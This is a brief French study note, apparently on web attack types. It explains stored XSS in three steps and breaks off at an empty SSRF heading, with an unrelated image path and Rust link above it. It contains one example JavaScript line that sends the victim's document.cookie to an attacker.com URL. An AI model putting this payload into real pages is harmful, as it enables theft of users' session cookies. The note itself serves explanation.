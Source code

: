https://doc.rust-lang.org/rust-by-example/index.html
# Différents types d'attaque
### XSS
1. Insérer un bout de code malveillant dans un user input
2. Le bout de code se retrouve dans la BD
3. Si un autre utilisateur fetch ce code JS et qu'il est executé sur le navigateur de la victime, celle-ci peut se faire voler son cookie ou d'autres données sensibles
```
var url = "https://attacker.com/steal-cookie.php?cookie=" + document.cookie;
```

### SSRF